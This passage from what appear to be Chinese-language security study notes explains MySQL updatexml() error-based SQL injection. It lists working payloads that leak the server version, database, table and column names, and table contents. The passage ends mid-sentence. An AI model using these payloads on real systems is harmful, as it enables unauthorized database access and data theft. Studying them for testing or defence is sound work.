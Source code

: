 #### 2. updatexml报错注入

MySQL 大于等于5.1.5才能用updatexml报错注入。

updatexml(xml_document, xpath_string, new_value)

- 第一个参数：XML文档对象名称（可以用数字代替）

- 第二个参数：XPath字符串（一般就是让这个参数部位正则字符串引起报错）

- 第三个参数：替换查找到的符合条件的数据

```
# 查看版本信息
id=1' and updatexml(1, concat(0x7e, version(), 0x7e),1) -- -

# 查找第一个数据库
id=1' and updatexml(1,concat(0x7e,(select distinct concat(0x7e, (select schema_name),0x7e) FROM information_schema.schemata limit 0,1),0x7e),1)  -- -

# 查找第二个数据库，以此类推
id=1' and updatexml(1,concat(0x7e,(select distinct concat(0x7e, (select schema_name),0x7e) FROM information_schema.schemata limit 1,1),0x7e),1)  -- -

# 依次查找表名
id=1' and updatexml(1,concat(0x7e,(select distinct concat(0x7e, (select table_name),0x7e) FROM information_schema.tables where table_schema='[库名]' limit 0,1),0x7e),1)  -- -

# 依次查找列名
id=1' and updatexml(1,concat(0x7e,(select distinct concat(0x7e, (select column_name),0x7e) FROM information_schema.columns where table_name='[表名]' limit 0,1),0x7e),1)  -- -

# 依次爆数据
id=1' and updatexml(1,concat(0x7e,(select distinct concat(0x7e, (select concat([字段1],0x7e,[字段2])),0x7e) FROM [库名].[表名] limit 0,1),0x7e),1)  -- -

# 一次查出所有库名（但是报错信息有长度32位限制，所以最好逐个查）
id=1' and updatexml(1,concat(0x7e,(select distinct concat(0x7e, (select group_concat(schema_name)),0x7e) FROM information_schema.schemata),0x7e),1)  -- -

# 一次查出所有表名（但是报错信息有长度32位限制，所以最好逐个查）
id=1' and updatexml(1,concat(0x7e,(select distinct concat(0x7e, (select group_concat(table_name)),0x7e) FROM information_schema.tables where table_schema='[库名]'),0x7e),1)  -- -

# 一次查找某个表下所有列名（但是报错信息有长度32位限制，所以最好逐个查）
id=1' and updatexml(1,concat(0x7e,(select distinct concat(0x7e, (select group_concat(column_name)),0x7e) FROM information_schema.columns where table_name='[表名]'),0x7e),1) -- -

# 一次爆出全部数据（但是报错信息有长度32位限制，所以最好逐个查）
id=1' and updatexml(1,concat(0x7e,(select distinct concat(0x7e, (select group_concat([列名1],0x3a,[列名2])),0x7e) FROM [库名].[表名]),0x7e),1)  -- -
```

其中：
